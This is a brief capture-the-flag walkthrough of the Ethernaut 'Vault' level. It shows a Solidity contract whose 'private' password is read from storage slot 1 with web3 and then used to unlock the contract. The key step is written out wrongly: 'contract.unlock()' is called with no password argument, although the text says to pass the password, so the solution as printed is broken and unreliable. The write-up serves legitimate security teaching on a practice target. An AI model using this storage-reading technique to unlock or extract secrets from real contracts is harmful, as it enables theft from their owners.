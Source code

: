 # Level 8: Vault

This is the level 8 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Layout of state variables](https://docs.soliditylang.org/en/v0.8.10/internals/layout_in_storage.html) in Solidity
- [Reading storage](https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat) at a slot in contract

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

`player` has to set `locked` to false.

Only way is by calling `unlock` by correct password.

Although `password` state variable is private, one can still read a storage variable by determining it's storage slot. Therefore sensitive information should not be stored on-chain, even if it is specified `private`.

Above, the `password` is at a storage slot of 1 in `Vault`.

Let's read it:

```javascript
password = await web3.eth.getStorageAt(contract.address, 1)
```

Call `unlock` with `password`:

```javascript
await contract.unlock()
```

Unlocked. Verify by:

```javascript
await contract.locked() === false
```

And that's it.